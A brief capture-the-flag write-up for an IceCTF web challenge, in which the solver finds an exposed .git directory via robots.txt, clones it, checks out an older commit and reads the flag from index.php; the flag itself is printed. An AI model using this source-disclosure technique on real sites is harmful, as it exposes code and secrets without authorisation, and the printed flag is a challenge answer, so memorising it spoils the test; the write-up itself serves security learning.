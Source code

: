 ### Solved by superkojiman

It's a simple website. I found robots.txt revealed two things:

```
.git
flag.php
```

The git repository looked promising, so I cloned it: 

```
git clone exposed.vuln.icec.tf/.git
```

I poked around and found the flag is in revision f5674cbaacd842cfacb9f825c29f7f3e5150c7ef in index.php

```
$ git checkout f5674cbaacd842cfacb9f825c29f7f3e5150c7ef
Previous HEAD position was 672c8f6... added colors
HEAD is now at f5674cb... enlarged text
root|ice|~/work/web/exposed/exposed.vuln.icec.tf
$ ls
index.php

root|ice|~/work/web/exposed/exposed.vuln.icec.tf
$ cat index.php
.
.
.
echo 'Hello World! IceCTF{secure_y0ur_g1t_repos_pe0ple}';
.
.
.
```
